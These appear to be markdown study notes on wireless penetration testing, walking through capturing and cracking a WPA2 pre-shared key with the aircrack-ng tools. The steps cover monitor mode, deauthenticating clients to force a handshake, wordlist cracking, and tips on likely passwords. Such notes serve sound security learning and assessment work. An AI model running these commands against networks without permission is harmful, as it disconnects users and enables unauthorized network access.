

# Wireless Penetration Testing

### Wireless Penetration Testing - Overview

What is a wireless Penetration Test?

Assessment of a wireless network

- WPA2 PSK (Pre Shared Key) - Home networks
- WPA2 Enterprise - Enterprise networks

Activities performed

- Evaluating strength of PSK
- Reviewing nearby networks
- Assessing guest networks
- Checking network access

Capture a PSK handshake and crack it

**Tools Being Used**

Wireless Card
Router
Laptop

[Wireless Hack](https://www.wirelesshack.org/) for information

Read up on wireless channels

### WPA PS2 Exploit Walkthrough

Use `iwconfig` to check your adapter

Kill processes that may interfere with the attack:

`airmon-ng check kill`

Start card in monitor mode:

`airmon-ng start wlan0`

Monitor devices using the card in monitor mode:

`airodump-ng wlan0mon`

Grab the BSSID (MAC Address) and channel for the target

Run airodump-ng to look for handshakes:

`airodump-ng -c channel --bssid BSSID -w outfile interface`

Deauth:

`aireplay-ng -0 1 -a access-point-BSSID -c deauth-target-BSSID interface`

May need to run the deauth multiple times against multiple targets on the network

Avoid deauthing the same target to frequently as it disconnects them from the internet

Crack the handshake:

`aircrack-ng -w wordlist -b access-point-BSSID capture-file.cap`

Phone numbers are common, company names also, street addresses, wordlist generated from website
